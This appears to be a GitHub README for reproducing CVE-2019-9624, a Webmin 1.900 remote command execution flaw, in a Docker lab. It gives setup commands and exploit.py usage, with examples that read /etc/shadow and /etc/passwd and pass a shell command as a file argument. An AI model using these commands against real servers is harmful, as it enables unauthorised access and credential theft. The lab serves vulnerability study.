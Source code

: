 # CVE-2019-9624

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9624>


## Exploit
* <https://pentest.com.tr/exploits/Webmin-1900-Remote-Command-Execution.html>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900


## Reproduction 

* Server
    - Docker version
        ```shell script
        sudo docker build -t cve-2019-9624 . 
        sudo docker run -p 10000:10000 -it cve-2019-9624
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        ```    
* Client
```shell script
python3 exploit.py --host SERVER-IP --port 10000 -u test --pass qwerty --file FILE_TO_GET
```      
     
A file will be uploaded allowing to any user to see any system file.      
Examples of use:
* <https://SERVER-IP:10000/file/show.cgi/etc/shadow>
* `python3 exploit.py --host <SERVER-IP> --port 10000 -u test --pass qwerty --file "/bin/ls /etc/passwd"`
